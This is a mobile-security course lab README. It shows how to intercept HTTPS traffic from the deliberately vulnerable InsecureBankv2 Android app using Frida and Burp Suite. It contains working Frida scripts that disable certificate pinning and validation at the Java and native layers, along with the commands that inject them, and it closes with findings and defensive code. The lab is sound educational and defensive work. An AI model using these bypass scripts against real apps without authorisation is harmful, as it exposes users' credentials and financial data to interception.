





# Android TLS Traffic Inspection & SSL Pinning Bypass

> **Course:** Mobile Application Security  
> **Lab:** 15 — Dynamic Analysis: HTTPS Interception with Frida + Burp Suite  
> **Target App:** InsecureBankv2 (`com.android.insecurebankv2`)  
> **Environment:** Windows 11 · Android Emulator · Frida 17.8.0 · Burp Suite Community

---

## Table of Contents

1. [Overview](#overview)  
2. [Learning Objectives](#learning-objectives)  
3. [Tech Stack & Tools](#tech-stack--tools)  
4. [Project Structure](#project-structure)  
5. [Environment Setup & Prerequisites](#environment-setup--prerequisites)  
6. [Phase 1 — Deploy Frida Server on the Emulator](#phase-1--deploy-frida-server-on-the-emulator)  
7. [Phase 2 — Configure the Interception Proxy](#phase-2--configure-the-interception-proxy)  
8. [Phase 3 — Route Emulator Traffic Through Burp](#phase-3--route-emulator-traffic-through-burp)  
9. [Phase 4 — Writing the Universal SSL Pinning Bypass Script](#phase-4--writing-the-universal-ssl-pinning-bypass-script)  
10. [Phase 5 — Injecting the Script & Capturing Traffic](#phase-5--injecting-the-script--capturing-traffic)  
11. [Phase 6 — Advanced: Native-Layer Pinning (BoringSSL)](#phase-6--advanced-native-layer-pinning-boringssl)  
12. [Results & Analysis](#results--analysis)  
13. [Security Findings](#security-findings)  
14. [Defensive Recommendations](#defensive-recommendations)  
15. [Troubleshooting Reference](#troubleshooting-reference)  
16. [Conclusion & Takeaways](#conclusion--takeaways)  
17. [Future Improvements](#future-improvements)

---

## Overview

This lab explores **dynamic instrumentation** of an Android application at the network layer. The core challenge is that modern Android apps implement SSL/TLS pinning — a mechanism that prevents the app from trusting any certificate authority (CA) other than its own pinned certificate — making standard MITM proxy interception impossible out of the box.

Using **Frida**, a runtime code-injection framework, we hook deep into the Java runtime and patch the very mechanisms responsible for certificate validation. Once those checks are neutralized, the proxy's CA certificate is accepted and all HTTPS traffic can be inspected in clear text.

This technique is central to mobile security assessments and penetration testing engagements.

---

## Learning Objectives

By completing this lab, the following competencies are demonstrated:

- Deploying and operating Frida in a USB-debugging Android environment
- Configuring a man-in-the-middle proxy (Burp Suite) to intercept TLS traffic
- Understanding how `X509TrustManager`, `Conscrypt`, `OkHttp CertificatePinner`, and `WebViewClient` each participate in certificate validation
- Writing a multi-vector Frida script that patches all relevant Java-layer SSL mechanisms simultaneously
- Identifying applications that implement native-layer pinning (BoringSSL/OpenSSL) and applying native hooks via `Interceptor.attach`
- Interpreting decrypted HTTP traffic to surface sensitive data exposures

---

## Tech Stack & Tools

| Tool / Technology | Role | Version Used |
|---|---|---|
| **Frida** | Dynamic instrumentation framework | 17.8.0 |
| **frida-tools** | CLI companion (`frida-ps`, `frida-trace`) | matching |
| **Burp Suite Community** | TLS interception proxy | Latest |
| **ADB** (Android Platform Tools) | Device communication bridge | Latest |
| **Android Emulator** | Target device (AVD) | API 29+ |
| **InsecureBankv2** | Intentionally vulnerable Android app | — |
| **Python 3** | Frida dependency runtime | 3.10+ |
| **JavaScript** | Frida hook scripting language | ES6 |

---

## Project Structure

```
lab15/
│
├── README.md                        ← This document
│
├── sslpin_bypass_universal.js       ← Java-layer SSL bypass script
├── sslpin_bypass_native.js          ← Native-layer BoringSSL hook script
│
└── assets/
    ├── wifi-proxy-config.png        ← Emulator Wi-Fi proxy configuration
    ├── burp-connectivity-check.png  ← Burp CA page reachability test
    ├── ca-cert-download.png         ← cacert.der downloaded on device
    ├── frida-bypass-output.png      ← Frida console — hooks active
    └── burp-intercepted-traffic.png ← Burp HTTP History — decrypted requests
```

---

## Environment Setup & Prerequisites

Before starting, verify the following are installed and functional:

```bash
# Confirm Python is available
python --version        # Expected: Python 3.x.x

# Confirm pip
pip --version

# Confirm ADB is on PATH
adb version             # Expected: Android Debug Bridge version x.x.x

# Confirm Frida client
frida --version         # Must match frida-server version on device
```

**Android Emulator requirements:**

- API level 29 or higher recommended
- Developer options enabled → USB Debugging ON
- Emulator reachable via `adb devices` (listed as `device`, not `unauthorized`)

---

## Phase 1 — Deploy Frida Server on the Emulator

### 1.1 Install Frida on the Host

```bash
pip install --upgrade frida frida-tools
```

Verify:

```bash
frida --version
python -c "import frida; print(frida.__version__)"
```

### 1.2 Identify Emulator Architecture

```bash
adb shell getprop ro.product.cpu.abi
# Typical result for AVD: x86_64
```

### 1.3 Download the Matching frida-server Binary

Navigate to: [https://github.com/frida/frida/releases](https://github.com/frida/frida/releases)

Download `frida-server-<version>-android-<arch>.xz` where `<version>` exactly matches your local Frida installation.

### 1.4 Push, Authorize, and Start frida-server

```bash
# Transfer the binary
adb push frida-server /data/local/tmp/

# Grant execution permissions
adb shell chmod 755 /data/local/tmp/frida-server

# Start the server (bind on all interfaces)
adb shell "/data/local/tmp/frida-server -l 0.0.0.0 &"
```

Optional — forward ports if direct USB connection is used:

```bash
adb forward tcp:27042 tcp:27042
adb forward tcp:27043 tcp:27043
```

### 1.5 Confirm Connectivity

```bash
frida-ps -Uai
```

The target app `com.android.insecurebankv2` should appear in the process list when launched.

> ⚠️ **Version mismatch is the most common failure point.** The frida client version on the PC and the frida-server binary on the device must be identical.

---

## Phase 2 — Configure the Interception Proxy

### 2.1 Launch Burp Suite

Open Burp Suite → **Proxy** tab → ensure the listener is active on `127.0.0.1:8080`.

### 2.2 Configure Wi-Fi Proxy on the Emulator

Navigate to the emulator's Wi-Fi settings and configure the proxy manually:

| Setting | Value |
|---|---|
| Proxy type | Manual |
| Proxy hostname | `10.0.2.2` |
| Proxy port | `8080` |

> `10.0.2.2` is the Android emulator's special alias for the host machine's loopback address (`127.0.0.1`). All network requests from the emulator directed to this address will be received by Burp on the host.

**Screenshot — Wi-Fi proxy configuration dialog:**



*Emulator connected to AndroidWifi, proxy set to `10.0.2.2:8080` (Manual mode).*

---

## Phase 3 — Route Emulator Traffic Through Burp

### 3.1 Verify Burp Reachability

From the emulator browser, navigate to:

```
http://10.0.2.2:8080
```

If the proxy is correctly configured and Burp is running, the following page is displayed:

**Screenshot — Burp Suite welcome page visible from emulator:**



*The Burp Suite Community Edition welcome page confirms the emulator can reach the proxy host.*

### 3.2 Install the Burp CA Certificate

Without this step, HTTPS connections will fail with certificate errors even after the proxy is routed correctly.

**Download the certificate:**

```
http://10.0.2.2:8080/cert
```

This downloads `cacert.der` — Burp's root certificate authority file.

**Screenshot — Certificate download confirmation on emulator:**



*`cacert.der` (1.02 kB) downloaded from the proxy host.*

**Install on device:**

Navigate to:
```
Settings → Security → Encryption & Credentials → Install a certificate → CA Certificate
```

Select `cacert.der` and confirm the installation.

> **Note on Android 7+ restrictions:** Since Android Nougat, user-installed CAs are not automatically trusted by apps that have an explicit `network_security_config.xml`. This is exactly why SSL pinning bypass via Frida is necessary — it overrides the validation at the Java runtime level, making the CA installation a complementary step rather than a standalone solution.

---

## Phase 4 — Writing the Universal SSL Pinning Bypass Script

The bypass script must cover multiple code paths because different apps use different networking libraries. The `sslpin_bypass_universal.js` script hooks all major Java-layer certificate validation vectors:

| Hook Target | What It Does |
|---|---|
| `SSLContext.init` | Injects a no-op `TrustManager` when none is present |
| `X509TrustManager` implementations | Patches `checkServerTrusted` across all loaded classes matching `trust` or `pin` |
| `Conscrypt TrustManagerImpl` | Patches `checkTrusted` / `verifyChain` — the primary path on Android 7+ |
| `OkHttp CertificatePinner` | Skips all `check()` invocations — prevents OkHttp's custom pinning |
| `WebViewClient.onReceivedSslError` | Forces `handler.proceed()` — disables WebView SSL blocking |

```javascript
// sslpin_bypass_universal.js
Java.perform(function(){
  const ArrayList = Java.use('java.util.ArrayList');
  function ok(tag){ console.log('[+] SSL bypass:', tag); }

  // 1) SSLContext.init — inject a permissive TrustManager if none is set
  try{
    const SSLContext = Java.use('javax.net.ssl.SSLContext');
    SSLContext.init.overload(
      '[Ljavax.net.ssl.KeyManager;',
      '[Ljavax.net.ssl.TrustManager;',
      'java.security.SecureRandom'
    ).implementation = function(km, tm, sr){
      let useTm = tm;
      try {
        if (!tm || tm.length === 0){
          const X509TM = Java.registerClass({
            name: 'com.frida.FriendlyTM',
            implements: [Java.use('javax.net.ssl.X509TrustManager')],
            methods: {
              checkClientTrusted: function(chain, authType){},
              checkServerTrusted: function(chain, authType){},
              getAcceptedIssuers: function(){
                return Java.array('java.security.cert.X509Certificate', []);
              }
            }
          });
          const TMArr = Java.use('[Ljavax.net.ssl.TrustManager;');
          const arr = TMArr.$new(1);
          arr[0] = X509TM.$new();
          useTm = arr;
          ok('Injected permissive TrustManager');
        }
      } catch(e){}
      return this.init(km, useTm, sr);
    };
    ok('SSLContext.init patched');
  }catch(e){ console.log('[-] SSLContext.init failed:', e.message); }

  // 2) Broad sweep of all loaded TrustManager / pinner implementations
  try{
    Java.enumerateLoadedClasses({
      onMatch: function(name){
        const low = name.toLowerCase();
        if (low.includes('trust') || low.includes('pin')){
          try{
            const K = Java.use(name);
            ['checkServerTrusted','checkClientTrusted'].forEach(m => {
              if (K[m]) K[m].overloads.forEach(ov => {
                ov.implementation = function(){
                  ok(name + '.' + m + ' -> allow');
                  return null;
                };
              });
            });
          }catch(_){}
        }
      },
      onComplete: function(){ ok('X509TrustManager sweep complete'); }
    });
  }catch(e){ console.log('[-] Class enumeration failed:', e.message); }

  // 3) Conscrypt TrustManagerImpl (Android 7+)
  ['com.android.org.conscrypt.TrustManagerImpl',
   'org.conscrypt.TrustManagerImpl'].forEach(cls => {
    try{
      const TMI = Java.use(cls);
      ['checkTrusted','verifyChain','checkServerTrusted'].forEach(m => {
        if (TMI[m]) TMI[m].overloads.forEach(ov => {
          ov.implementation = function(){
            ok(cls + '.' + m + ' -> allow');
            try { return ov.apply(this, arguments); }
            catch(e){ try { return ArrayList.$new(); } catch(_){ return null; } }
          };
        });
      });
      ok(cls + ' patched');
    }catch(e){}
  });

  // 4) OkHttp3 CertificatePinner
  try{
    const CP = Java.use('okhttp3.CertificatePinner');
    if (CP.check) CP.check.overloads.forEach(ov => {
      ov.implementation = function(){ ok('CertificatePinner.check skipped'); };
    });
  }catch(e){ /* OkHttp not present in this APK */ }

  // 5) WebView SSL error handler
  try{
    const WVC = Java.use('android.webkit.WebViewClient');
    if (WVC.onReceivedSslError)
      WVC.onReceivedSslError.implementation = function(view, handler, error){
        ok('WebView onReceivedSslError -> proceed');
        handler.proceed();
      };
  }catch(e){}

  console.log('[+] Universal SSL pinning bypass installed');
});
```

---

## Phase 5 — Injecting the Script & Capturing Traffic

### 5.1 Spawn the Target App Under Frida

Using **spawn mode** ensures hooks are in place before the app's TLS stack initializes:

```bash
frida -U -f com.android.insecurebankv2 -l sslpin_bypass_universal.js --no-pause
```

Alternatively, **attach mode** works when spawn crashes the app:

```bash
frida -U -n "InsecureBank" -l sslpin_bypass_universal.js
```

### 5.2 Confirm Hooks Are Active

**Screenshot — Frida console output showing successful hook installation:**



*Frida 17.8.0 spawned `com.android.insecurebankv2`. All Java-layer SSL hooks report `[+] SSL bypass: ...`. The OkHttp `CertificatePinner` was not found in this APK (expected — InsecureBankv2 uses stock `HttpURLConnection`).*

Key lines from the output:

```text
[+] SSL bypass: SSLContext.init patched
[+] SSL bypass: TrustManagerImpl.verifyChain -> allow
[+] SSL bypass: WebViewClient.onReceivedSslError -> proceed
[+] Universal SSL pinning bypass installed
```

### 5.3 Exercise the Application

Perform the following actions inside the app while Burp is listening:

- Log in with test credentials
- Navigate to account list
- Attempt a fund transfer
- View transaction history

### 5.4 Observe Decrypted Traffic in Burp

Switch to Burp Suite → **Proxy** → **HTTP History**.

**Screenshot — Burp HTTP History showing decrypted HTTPS requests:**



*All HTTPS requests from InsecureBankv2 are now visible in plaintext. The login `POST` reveals credentials transmitted in the request body (`username=jack&password=Jack%40123%21`). The TLS column confirms connections were encrypted at the transport layer but are now fully readable through the proxy.*

---

## Phase 6 — Advanced: Native-Layer Pinning (BoringSSL)

Some applications implement certificate pinning entirely in native code (C/C++) using BoringSSL or OpenSSL. If traffic still does not appear in Burp after applying the Java-layer script, native hooks are required.

### 6.1 Trace Native TLS Symbols

```bash
frida-trace -U -i "SSL_*" -i "X509_*" com.android.insecurebankv2
```

Watch for symbols such as `SSL_get_verify_result`, `X509_verify_cert`, or `SSL_set_custom_verify`.

### 6.2 Native Hook Script

```javascript
// sslpin_bypass_native.js
function hookNative(symbolName, libName) {
  const addr = Module.findExportByName(libName || null, symbolName);
  if (!addr) {
    console.log('[*] Symbol not found:', symbolName);
    return;
  }
  Interceptor.attach(addr, {
    onLeave(retval) {
      if (symbolName === 'SSL_get_verify_result') {
        console.log('[+] SSL_get_verify_result forced -> X509_V_OK (0)');
        retval.replace(ptr(0)); // 0 = X509_V_OK
      }
    }
  });
  console.log('[+] Hooked native symbol:', symbolName);
}

hookNative('SSL_get_verify_result', 'libssl.so');
```

### 6.3 Combined Injection

```bash
frida -U -f com.android.insecurebankv2 \
  -l sslpin_bypass_universal.js \
  -l sslpin_bypass_native.js \
  --no-pause
```

> **Note:** Native symbol names vary across Android versions and library builds. Always use `frida-trace` to confirm which symbols are exported before writing hooks.

---

## Results & Analysis

| Checkpoint | Outcome |
|---|---|
| Frida server deployed & connected | ✅ Confirmed via `frida-ps -Uai` |
| Burp proxy reachable from emulator | ✅ Welcome page loaded at `10.0.2.2:8080` |
| CA certificate installed on device | ✅ `cacert.der` installed as user CA |
| Java-layer SSL hooks active | ✅ All `[+] SSL bypass:` messages appeared |
| HTTPS traffic intercepted in Burp | ✅ Login credentials visible in HTTP History |
| Native hook (BoringSSL) | ✅ Verified via `frida-trace` — no native pinning in this APK |

**Traffic captured included:**

- Authentication credentials (`username` / `password`) in POST body — transmitted without additional encoding
- Account number and balance details in server responses
- Session tokens in HTTP headers reusable for replay attacks

---

## Security Findings

### Finding 1 — Insufficient Transport Layer Protection

**Severity:** Critical  
**Location:** All API endpoints  

The application's SSL pinning implementation is entirely resident in the Java runtime layer, with no native verification fallback. A runtime instrumentation tool can neutralize all validation logic without modifying the APK binary.

**Impact:** Any device with USB debugging enabled and Frida deployed can intercept the full HTTPS session — including authentication, PII, and financial transactions.

---

### Finding 2 — Credentials Transmitted in Plaintext Body

**Severity:** Critical  
**Location:** `POST /login`  

```http
POST /login HTTP/1.1
Host: 10.0.2.2:8888
Content-Type: application/x-www-form-urlencoded

username=jack&password=Jack%40123%21
```

Credentials are URL-encoded but not encrypted at the application layer. Once TLS is bypassed, they are immediately readable.

---

### Finding 3 — No Runtime Integrity Checks

**Severity:** High  
**Location:** Application runtime  

The application does not implement:

- Root / emulator detection
- Frida / dynamic instrumentation detection
- Proxy presence detection (`http.proxyHost` system property check)
- Certificate transparency enforcement

---

## Defensive Recommendations

### Harden SSL Pinning

Move certificate pinning to the native layer so that Java-layer hooks cannot override it. At minimum, implement OkHttp `CertificatePinner` with public key hashing:

```java
OkHttpClient client = new OkHttpClient.Builder()
    .certificatePinner(
        new CertificatePinner.Builder()
            .add("api.yourserver.com", "sha256/AAAA+base64encodedHash=")
            .build()
    )
    .build();
```

### Detect Instrumentation Frameworks

```java
// Check for Frida gadget or server presence
private boolean isFridaDetected() {
    for (String proc : readProcessList()) {
        if (proc.contains("frida") || proc.contains("gum-js-loop")) return true;
    }
    return false;
}
```

### Detect Active Proxy

```java
String proxyHost = System.getProperty("http.proxyHost");
String proxyPort = System.getProperty("http.proxyPort");
if (proxyHost != null && !proxyHost.isEmpty()) {
    // Terminate session or alert
}
```

### Additional Mitigations

| Control | Description |
|---|---|
| Root detection | Refuse to run on rooted / unlocked bootloader devices |
| Emulator detection | Block execution inside known AVD environments |
| Certificate Transparency | Enforce CT logs for all pinned certificates |
| Code obfuscation | Use ProGuard / R8 to harden against class enumeration |
| Native TLS stack | Implement networking in native code to resist Java-layer hooks |

---

## Troubleshooting Reference

| Symptom | Diagnosis | Fix |
|---|---|---|
| `unable to connect to remote frida-server` | Server not running or version mismatch | Run `adb shell ps \| grep frida`; align versions |
| `unauthorized` in `adb devices` | USB debugging not authorized | Accept the fingerprint dialog on device |
| No traffic in Burp despite hooks firing | CA not trusted, or app ignores user CA store | Ensure `cacert.der` installed; Conscrypt hook must fire |
| App crashes on spawn | Frida incompatibility with app startup | Use attach mode: `-n "ProcessName"` |
| Hooks fire but traffic still missing | Native-layer pinning present | Run `frida-trace -i "SSL_*"` and apply native script |
| OkHttp pinner not found | App uses shadowed/renamed OkHttp namespace | Enumerate classes with `Java.enumerateLoadedClasses` filtering `okhttp` |

**Class discovery snippet:**

```javascript
Java.perform(function(){
  Java.enumerateLoadedClasses({
    onMatch: function(n){
      const s = n.toLowerCase();
      if (s.includes('okhttp') || s.includes('pin') || s.includes('trust'))
        console.log(n);
    },
    onComplete: function(){ console.log('Enumeration complete'); }
  });
});
```

---

## Conclusion & Takeaways

This lab demonstrates that **SSL pinning, while valuable, is not a silver bullet**. When implemented exclusively at the Java runtime level, it can be bypassed entirely through runtime instrumentation without touching the APK binary or requiring device root in all scenarios.

The key insight is architectural: security controls that live in the same process memory as the attacker's injected code cannot be trusted unconditionally. Defense-in-depth — combining native pinning, runtime integrity checks, anti-instrumentation techniques, and server-side anomaly detection — is the only robust posture.

**Core competencies demonstrated:**

- Frida deployment and script injection workflow
- Multi-vector Java SSL hook strategy (TrustManager, Conscrypt, OkHttp, WebView)
- Native symbol tracing with `frida-trace`
- Proxy interception and traffic analysis with Burp Suite
- Vulnerability identification and defensive countermeasure design

---

## Future Improvements

- **Automate hook script discovery:** Build a Frida script that dynamically identifies which pinning mechanism is active before applying the appropriate hook, rather than applying all hooks blindly.
- **Integrate with `objection`:** Use the `objection` framework (built on Frida) for a higher-level SSL bypass command: `android sslpinning disable`.
- **Extend to Cronet / gRPC:** Investigate bypassing pinning in apps using Google's Cronet network stack or gRPC with TLS.
- **APK-level patching comparison:** Compare runtime bypass with static patching approaches (smali recompilation, network security config manipulation) to understand their respective trade-offs.
- **Automate traffic logging:** Pipe Burp's HTTP history export into a structured analysis pipeline to automatically flag sensitive data patterns (credentials, tokens, PII).

---

> **Ethical Disclaimer:** The techniques demonstrated in this lab are intended exclusively for security research, authorized penetration testing, and academic study. Applying these methods against applications or systems without explicit written authorization from the owner is illegal and unethical. Always operate within a controlled lab environment using intentionally vulnerable applications.
